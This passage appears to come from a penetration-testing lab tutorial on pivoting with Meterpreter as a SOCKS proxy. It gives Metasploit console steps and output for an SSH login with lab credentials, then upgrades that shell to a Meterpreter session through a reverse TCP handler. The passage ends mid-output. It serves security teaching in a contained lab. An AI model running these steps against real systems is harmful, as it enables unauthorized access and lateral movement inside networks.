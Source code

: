 ## Method 2: Pivot With Meterpreter and socks proxy

Some servers don't run SSH, and I often like to leverage meterpreter once I find an initial entry vector for a variety of reasons. Similar to SSH, meterpreter can become a socks proxy, though I have generally found it less reliable than SSH. If you are using the docker compose file provided, I include a slightly modified metasploit image on the public network.

Unfortunately, socks4 proxies only generally support TCP protocols, and certain kinds of traffic won't work well, so full nmap and similar tool usage may not be possible.

### Setup the connection

We'll run meterpreter over SSH for this example, but the steps would be the same for any meterpreter session once connected. The below will jump from our machine into the metasploit docker container, start metasploit, and create a meterpreter over SSH connection.

```bash
# Create a shell on the metasploit image
$ docker exec -it pivots_metasploit_1 /bin/bash
root@3456fe097a17:/$ msfconsole
msf5 > use auxiliary/scanner/ssh/ssh_login
msf5 auxiliary(scanner/ssh/ssh_login) > set RHOSTS ssh
RHOSTS => ssh
msf5 auxiliary(scanner/ssh/ssh_login) > set USERNAME pentester
USERNAME => pentester
msf5 auxiliary(scanner/ssh/ssh_login) > set PASSWORD letspivot
PASSWORD => letspivot
msf5 auxiliary(scanner/ssh/ssh_login) > exploit

[+] 172.21.0.2:22 - Success: 'pentester:letspivot' ''
[*] Command shell session 1 opened (172.21.0.3:42077 -> 172.21.0.2:22) at 2019-09-19 12:50:57 +0000
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

msf5 auxiliary(scanner/ssh/ssh_login) > sessions

Active sessions
===============

  Id  Name  Type           Information                              Connection
  --  ----  ----           -----------                              ----------
  1         shell unknown  SSH pentester:letspivot (172.21.0.2:22)  172.21.0.3:42077 -> 172.21.0.2:22 (172.21.0.2)

msf5 auxiliary(scanner/ssh/ssh_login) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[!] SESSION may not be compatible with this module.
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 172.21.0.3:4433 
[*] Sending stage (985320 bytes) to 172.21.0.2
[*] Meterpreter session 2 opened (172.21.0.3:4433 -> 172.21.0.2:57642) at 2019-09-19 12:51:09 +0000
[*] Command stager progress: 100.00% (773/773 bytes)
msf5 auxiliary(scanner/ssh/ssh_login) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                            Connection
  --  ----  ----                   -----------                                            ----------
```